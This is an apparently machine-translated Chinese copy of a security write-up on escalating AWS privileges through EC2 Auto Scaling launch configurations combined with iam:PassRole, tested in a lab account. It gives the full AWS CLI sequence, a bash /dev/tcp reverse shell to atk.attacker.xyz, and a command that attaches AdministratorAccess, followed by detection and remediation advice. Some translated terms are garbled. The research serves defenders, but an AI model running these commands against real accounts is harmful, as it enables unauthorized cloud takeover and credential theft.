

# AWS EC2 自动扩展权限升级

> 原文：<https://infosecwriteups.com/aws-ec2-auto-scaling-privilege-escalation-d518f8e7f91b?source=collection_archive---------0----------------------->

# 介绍

本文是关于滥用 AWS 托管策略和默认配置的权限提升。

IAM 在 AWS 上的权限错误配置和权限提升在过去已经被彻底讨论过，特别是来自 [Rhino Security Labs](https://rhinosecuritylabs.com/blog/) 和 [Bishop Fox](https://bishopfox.com/) 的讨论，所以我创建了一个 AWS laboratory account 来测试对 AWS 基础设施的新旧攻击，特别是 IAM 服务。


在搜索亚马逊托管策略及其组合提供的奇怪权限时，发现策略[AmazonElasticMapReduceFullAccess](https://console.aws.amazon.com/iam/home#/policies/arn:aws:iam::aws:policy/AmazonElasticMapReduceFullAccess)(V7)允许经典的权限提升权限 *iam:PassRole* 和 *ec2:RunInstance* (以及许多其他权限！).

这并不新鲜，因为有了这两个权限，就可以创建一个新的 EC2 实例，传递一个比实际用户权限更高的角色，登录到实例中，并在 EC2 服务中使用假定的角色。

*iam:PassRole* 权限可以允许服务承担角色并代表它执行操作。

任何 AWS 专业人员都将避免使用该策略或创建一个拒绝策略，以至少将 *iam:PassRole* 限制为特定的角色或服务。

# 输入数据科学家

[Amazon Elastic Map Reduce](https://searchaws.techtarget.com/definition/Amazon-Elastic-MapReduce-Amazon-EMR)(EMR)服务是一个大数据平台，用于运行大规模分布式数据处理作业、SQL 查询和机器学习(ML)应用程序，因此我搜索了应该与 data scientist 用户相关联的其他策略。

显然，由于以下权限，数据科学家策略引起了我的注意:

*   *cloud formation:create stack*
*   *λ:创造**
*   *λ:更新**
*   *λ:invoke function*

这个策略只是一个定时炸弹，因为如果攻击者用户/角色获得了 *iam:PassRole* 权限，就可以执行大量滥用 CloudFormation 堆栈、自定义 Lambda 函数、EC2 实例等权限提升路径。

亚马逊意识到了这个问题，并决定放弃这个政策。事实上，新策略已经限制了对 *iam:PassRole* 的权限。

为了增加难度，一个名为*的策略被创造出来。该策略明确拒绝以下操作:*

*   *云形成:创建堆栈*
*   *cloud formation:update stack*
*   *ec2:运行实例*
*   *λ:创建**
*   *λ:更新**
*   *λ:invoke function*

从 DataScientist policy 中，另一个操作引起了注意*自动缩放:*。*

既然上面的策略拒绝了传统的权限提升途径，有趣的途径是使用 EC2 自动缩放服务来执行权限提升。

场景很简单:

*   攻击者可以访问一个*演示数据科学家*角色，并附带三个策略*数据科学家*、*AmazonElasticMapReduceFullAccess*和 *DemoDenyPrivEscs*
*   在该帐户中，有一个可以由 EC2 承担的特权角色，称为 demo- *EC2Admin*

**注意:**明显地在全局范围内拒绝 *iam:PassRole* 将基本上阻止所有主要的特权升级；但是我们在这里做实验。

# 使用 EC2 自动扩展的权限提升

**如果您从未使用过自动缩放功能，则 AWSServiceRoleForAutoScaling 不能用于启动服务。**

Amazon EC2 Auto Scaling service 帮助组织扩展 EC2 实例以维护应用程序可用性，并允许他们根据定义的工作负载规则自动启动或终止实例。

该服务需要启动配置和自动扩展组:

*   启动配置创建 EC2 实例运行时使用的模板；
*   自动缩放组用于定义缩放配置和规则。

*demo-DataScientist* 然后可以创建 EC2 启动配置和带有 AMI 映像的自动扩展组，攻击者可以访问该映像。

启动配置是 EC2 自动缩放组用来启动 EC2 实例的模板。创建启动配置时，会指定实例的信息，例如 Amazon 机器映像(AMI)的 ID、实例类型、密钥对、一个或多个安全组以及块设备映射。

然后，攻击者创建一个启动配置，该配置:

*   使用角色 demo-EC2Admin
*   使用支持用户数据脚本的 AMI 映像
*   [可选]为了简单起见，启用 IMDSv1

攻击者现在找到最新的 Amazon AMI(默认安装 AWSCLI 并支持用户数据脚本):

```
aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'
```

攻击者使用的 AMI 映像必须能够被攻击者自己访问，有一些选择:

*   使用用户名和密码(或攻击者已知的密钥对)进行 SSH 访问的 AMI，附带允许 SSH 流量的公共 IP 地址和安全组
*   一个定制的公共 AMI，在启动时执行一个脚本/例程以连接到外部机器(即反向外壳)
*   启动时执行脚本/例程以使用用户数据配置连接到外部机器(即反向外壳)的 AMI
*   使用攻击者可以利用的 AWS 帐户的已配置安全组暴露具有易受攻击服务的 AMI

在这个阶段，目标是访问实例。

使用上面的输出，可以创建一个启动配置:

```
aws autoscaling create-launch-configuration --launch-configuration-name demo-LC --image-id ami-0f90b6b11936e1083 --instance-type t1.micro --iam-instance-profile demo-EC2Admin --metadata-options "HttpEndpoint=enabled,HttpTokens=optional" --associate-public-ip-address --user-data=file://reverse-shell.sh
```

*reverse-shell.sh* 文件包含启动时在 EC2 上执行的脚本:

```
#!/bin/bash/bin/bash -l > /dev/tcp/atk.attacker.xyz/443 0<&1 2>&1
```

该脚本只是使用 *Bash* 执行一个反向 shell，允许攻击者在不访问 AWS VPC 或 EC2 SSH 密钥的情况下访问启动的 EC2 实例。

一般来说，任何类型的反向外壳都可以使用，因为攻击者可以伪造启动脚本；更复杂的问题可能涉及混淆、更稳定的连接、复杂信标的下载、持久性和恶意软件。

现在已经创建了启动配置；该服务还需要一个自动缩放策略来启动/停止实例。

攻击者然后使用上面创建的启动配置 *evilLC* 来创建自动缩放组，以实际启动 EC2 实例:

```
aws autoscaling create-auto-scaling-group --auto-scaling-group-name demo-ASG --launch-configuration-name demo-LC --min-size 1 --max-size 1 --vpc-zone-identifier "subnet-aaaabbb"
```

选择的 VPC 子网应该至少允许从 EC2 到攻击者 IP 和端口的出口流量；通常情况下，出口安全组非常广泛，攻击者有太多的选择。

使用*AmazonElasticMapReduceFullAccess*中定义的 *ec2:DescribeSubnets* 权限，攻击者可以选择适当的子网 id。

创建自动缩放组后，AWS 会检查 ec2 的数量是否在定义的自动缩放策略的限制范围内。由于该扩展组中没有可用的 EC2，因此会创建一个新的 EC2，然后再衍生。

在实例的引导上，攻击者服务器会收到一个反向外壳:



从 EC2 反转外壳

有了这个 shell，现在可以在 EC2 实例中使用 *demo-EC2Admin* 角色，或者使用简单的 HTTP GET 请求将会话令牌转储到 IMDS。

由于 AWS 意识到 EC2 角色不应该在 AWS 组织之外使用，因此从 AWS 外部使用会话令牌会触发一个带有签名*unauthorized access:iam user/instanceredentialexfiltration 的警报。窗外*。

攻击者现在可以从反向外壳获得管理权限:

```
aws iam attach-role-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --role-name demo-DataScientist
```

# 结论

此权限提升所需的最低权限为:

*   *自动缩放:创建自动缩放组*或*自动缩放:更新自动缩放组*
*   *自动缩放:创建启动配置*
*   *iam:PassRole* 可以访问 EC2 可假设的实例概要文件

这种权限提升很容易在您的 AWS 帐户上发现，特别是如果您使用 IaC 来部署和管理 AWS 资源:只需搜索任何使用*自动缩放:** 操作或*数据科学家*策略与 *iam:PassRole* 的组合。

在这个要点中，你可以找到地形代码来部署一个最小可行的场景来利用这个特权升级。

**这里的问题不是 AWS 托管策略的使用，而是*自动缩放*和 *iam:PassRole* 权限的组合。**

要实际执行攻击，攻击者必须知道附加到 EC2 实例的角色名称和允许出口流量的安全组。

DataScientist 策略允许 *iam:ListRole* ，即使攻击者不知道正确的角色，也可以从列表中或通过试错法猜测出来；同样方法可以用于列出安全组、VPC 和子网。

来自 nccgroup 的 PMapper 能够显示这种特权，但没有说明如何实际利用它:

```
In AWS, IAM Principals such as IAM Users or IAM Roles have their permissions defined using IAM Policies. These policies describe different actions, resources, and conditions where the principal can make a given API call to a service. 

Administrative principals can call any action with any resource, as in the AdministratorAccess AWS-managed policy. However, some permissions may allow another non-administrative principal to gain access to an administrative principal. This represents a p
rivilege escalation risk.* role/demo-DataScientist can escalate privileges by accessing the administrative principal role/demo-EC2Admin: 
  * role/demo-DataScientist can use the EC2 Auto Scaling service role and create a launch configuration to access role/demo-EC2Admin
```

# 补救

一个快速解决方案是创建一个策略来拒绝角色或用户的自动扩展权限，但这应该只是一个补丁，以允许对 *iam:PassRole* 权限进行更精确的补救和调整。

补救措施是遵循身份和访问管理的 AWS 安全最佳实践:

*   使用授予最低权限的策略，或仅授予执行任务所需的权限。授予最小权限的最安全的方法是编写一个自定义策略，只包含用户/角色所需的权限；
*   使用[访问分析器](https://docs.aws.amazon.com/IAM/latest/UserGuide/what-is-access-analyzer.html)服务来验证和减少未使用的特权；
*   定期审查政策并进行评估，以发现错误配置；
*   监控 AWS 帐户上的 IAM 活动

根据经验，最好的方法是避免使用 AWS 管理的策略，因为创建它们只是为了让事情顺利进行，而不是带来麻烦，并且*被设计为*过于宽松。